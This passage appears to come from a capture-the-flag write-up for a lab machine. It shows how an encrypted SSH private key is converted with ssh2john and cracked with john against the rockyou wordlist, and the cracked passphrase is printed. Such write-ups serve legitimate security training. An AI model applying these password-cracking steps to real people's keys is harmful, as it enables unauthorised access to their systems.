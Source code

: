 ![](/assets/obsidian/d73a8c8687aa0d077401909842429ca5.png)

## Crack SSH Private Key

```bash
vi james.id_rsa
```

We can see jame's private key was encrypted based on the `Proc-Type` field at header

```bash
ssh2john james.id_rsa > james.id_rsa.hash
john james.id_rsa.hash --wordlist=/opt/wordlists/rockyou.txt
```

```bash
┌──(bravosec㉿fsociety)-[~/thm/overpass]
└─$ john james.id_rsa.hash --show
james.id_rsa:james13

1 password hash cracked, 0 left
```
